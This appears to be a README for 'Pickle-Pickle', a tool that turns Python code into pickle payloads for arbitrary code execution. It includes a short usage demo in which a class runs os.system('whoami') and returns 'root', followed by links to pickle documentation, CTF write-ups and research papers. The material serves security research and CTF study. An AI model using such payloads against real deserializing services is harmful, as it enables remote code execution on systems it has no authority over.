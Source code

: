 ## Pickle-Pickle
```
A arbitrary python code executer via python pickle
```

#### Usage
```python
# cat evil.py
#!/usr/bin/env python
# encoding:utf-8

class Exploit():
    def __init__(self, command):
        self.command = command
    
    def run(self):
        import os
        return os.system(self.command)

print(Exploit("whoami").run())

# python pickle-pickle.py
Usage:
        python .\pickle-pickle.py [FILENAME]

# python pickle-pickle.py evil.py
root
```

#### Reference
* Source Code
    * https://github.com/python/cpython/blob/master/Lib/pickle.py
* Documents
    * https://www.python.org/dev/peps/pep-0307/
    * https://www.python.org/dev/peps/pep-3154/
    * https://docs.python.org/2/library/pickle.html#pickle-protocol
    * https://docs.python.org/2/library/pickle.html
    * https://docs.python.org/3/library/pickle.html
* CTF WriteUP
    * https://www.cnblogs.com/heycomputer/articles/10613850.html
    * https://www.jianshu.com/p/8fd3de5b4843
    * https://github.com/bl4de/ctf/blob/master/2016/HackIM_2016/Unicle_Web200/Unicle_Web200_writeup.md
    * https://github.com/ctfs/write-ups-2015/tree/master/camp-ctf-2015/pwn/spam-100
* Articles
    * https://checkoway.net/musings/pickle/
    * https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html
    * https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html
    * https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html
    * https://zhuanlan.zhihu.com/p/25981037
    * http://www.bendawang.site/2018/04/18/Python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%9A%84%E8%8A%B1%E5%BC%8F%E5%88%A9%E7%94%A8/
    * http://intx0x80.blogspot.com/2017/05/python-input-vulnerability_25.html
* Papers
    * http://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf
* Tools
    * https://gist.github.com/freddyb/3360650
    * https://github.com/sensepost/anapickle
